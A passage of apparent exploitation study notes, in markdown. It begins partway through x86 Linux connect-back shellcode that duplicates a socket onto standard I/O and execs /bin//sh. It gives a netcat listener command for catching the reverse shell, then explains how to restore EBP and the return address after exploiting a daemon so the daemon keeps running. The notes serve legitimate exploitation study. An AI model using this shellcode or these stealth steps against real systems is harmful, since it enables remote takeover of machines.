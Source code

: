 ```
  inc ebx           ; ebx = 3 = SYS_CONNECT = connect()
  int 0x80          ; eax = connected socket FD

; dup2(connected socket, {all three standard I/O file descriptors})
  xchg eax, ebx     ; Put socket FD in ebx and 0x00000003 in eax.
  push BYTE 0x2     ; ecx starts at 2.
  pop ecx
dup_loop:
  mov BYTE al, 0x3F ; dup2  syscall #63
  int 0x80          ; dup2(c, 0)
  dec ecx           ; Count down to 0.
  jns dup_loop      ; If the sign flag is not set, ecx is not negative.

; execve(const char *filename, char *const argv [], char *const envp[])
  mov BYTE al, 11   ; execve  syscall #11.
  push edx          ; push some nulls for string termination.
  push 0x68732f2f   ; push "//sh" to the stack.
  push 0x6e69622f   ; push "/bin" to the stack.
  mov ebx, esp      ; Put the address of "/bin//sh" into ebx via esp.
  push edx          ; push 32-bit null terminator to stack.
  mov edx, esp      ; This is an empty array for envp.
  push ebx          ; push string addr to stack above null terminator.
  mov ecx, esp      ; This is the argv array with string ptr.
  int 0x80          ; execve("/bin//sh", ["/bin//sh", NULL], [NULL])
```

to catch the resulting callback you can use a program like netcat to set up a tcp listener with the following syntax

```
nc -v -l -p 31337
```
## x600
### Key concepts/definitions to know.
- **Daemon** - a daemon is a process that runs in the background, detached from the controlling terminal. 
- **Signals** - Signals are how processed communicate to one another in linux, when a program recieved a signal its execution flow is halted to call a signal handler.
  - The ```kill``` command can be used to send signals to a running process.
  - A program's behavior when a signal is recieved can be changed with the ```signal``` function ex: ```signal(SIGTERM, made_up_function)```
  - ```strace``` can be used to inspect the systemcalls of an executable. 
    - more importantly, it can be attached to a running process with ```j``` and you can filter calls with ```f```
  - When trying to find byte values for function/system call arguments it may be easier to simply put them in a C file and dissaseemble them and check out the values passed there. 

### Repairing Broken Execution Flow 
If you exploit a system daemon more times than not, you will disturb execution flow. If this happens, there are a couple things you need to do to ensure that execution flow is restored to normal.
  1. **Restore the base pointer**- Because you want the stack to return to the state it was when you decided to break it you need to ensure that you restore its state. To do so, you need to check out he function prologue of the function you overtook and get the offset of ```ESP``` from ```EBP``` and recreate this activity. Your code will look something like.
      ```
      lea ebp, [esp+0x69]   ; 0x69 is the original offset of ebp in the calling function(main)
      ```
      *Note- set breakpoints before and after your shellcode to observe these changes*
      *Note2- The code wil do the math to fix ESP itself, ebp is your problem*
  2. **Restore the return address** - After you fix the stack you broke, you have to point the program in the right direction before it can resume.  
      ```